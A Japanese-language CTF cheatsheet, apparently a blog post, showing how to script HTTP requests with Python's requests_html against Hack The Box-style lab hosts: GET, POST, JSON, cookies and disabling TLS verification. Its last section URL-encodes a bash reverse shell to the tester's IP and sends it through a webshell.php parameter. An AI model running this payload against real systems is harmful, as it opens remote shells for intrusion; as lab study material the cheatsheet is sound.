 ```yaml
---
layout: post
title: HTTP通信の自動化(python/requests_html)
published : true
tags: CTF Common cheatsheet python requests_html
---
```

## 基本
```python
from requests_html import HTMLSession

s = HTMLSession()
```

## GET
```python
url = 'http://10.10.11.116/'

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```

## POST
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, data=data)
```

## POST(JSON)
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, json=data)
```

## Cookie
### 取得

### 送信
```python
url = "http://10.10.11.139:5000/"

session.cookies.set('auth', 'some_cookie')

r = session.get(url)
```

## TLS証明書の検証をしない
verify=False
```python
url = 'https://store.nunchucks.htb/api/submit'
r = session.post(url, verify=False, json=data)
```

## DataのURL encode
```python
import urllib.parse

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"'
cmd = urllib.parse.quote(cmd)
url = f'http://10.10.11.116/webshell.php?cmd={cmd}'

r = s.get(url)
```
